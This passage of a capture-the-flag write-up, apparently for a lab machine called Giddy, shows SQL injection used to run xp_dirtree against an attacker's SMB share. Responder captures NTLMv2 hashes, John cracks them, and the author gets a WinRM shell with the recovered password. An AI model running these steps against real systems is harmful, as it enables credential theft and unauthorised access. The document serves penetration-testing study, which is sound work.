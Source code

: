 Using SQLMap I can easily get a DB shell and execute this command:

```
sql-shell> exec master.dbo.xp_dirtree '\\10.10.14.43\anything';
```

What the above command does is connect to a SMB server that I control. Using Responder it is possible to capture the NTLM hash that the SQL Server is gonna use to authenticate to the SMB server:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo responder -I tun0 -v --lm 
...

[+] Listening for events...

[SMB] NTLMv2 Client   : ::ffff:10.10.10.104
[SMB] NTLMv2 Username : GIDDY\Stacy
[SMB] NTLMv2 Hash     : Stacy::GIDDY:ca4e97cd4947f624:FBACC6F993864B9D7FD4C9BF5953D733:0101000000000000A8E1670A132CD80120D522789B1F9AA900000000020000000000000000000000
[SMB] NTLMv2 Client   : ::ffff:10.10.10.104
[SMB] NTLMv2 Username : GIDDY\Stacy
[SMB] NTLMv2 Hash     : Stacy::GIDDY:eb026b7aa03a8007:81BFACFB06B08C65ED16CD768B550BA9:0101000000000000D69B920A132CD8016B32F9AF32F3F4FF00000000020000000000000000000000
```

Notice the last Responder parameter I used, that will make clients use a LM hash intead of NTLM if possible. Since LM hashes are easier to crack using that parameter ease the next steps.

## Foothold

Time for cracking! I will use Jhon for this:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=~/Wordlists/rockyou.txt hash
...

┌──(kali㉿kali)-[~/Desktop]
└─$ john --show hash                                                                                             1 ⨯
Stacy:xNnWo6272k7x:GIDDY:e957fe38a7813b53:136D6064BDCCAB9ECF6A891C41B627E1:0101000000000000E0DE409A0E2CD801FB782F5985F9E8E400000000020000000000000000000000

1 password hash cracked, 0 left
```

And we have credentials! `stacy:xNnWo6272k7x`. Remember the Winrm service? Let's check if we can use it:

```bash
┌──(kali㉿kali)-[~/Desktop/evil-winrm]
└─$ ./evil-winrm.rb -i 10.10.10.104 -u stacy -p xNnWo6272k7x                                                     1 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Stacy\Documents>
```
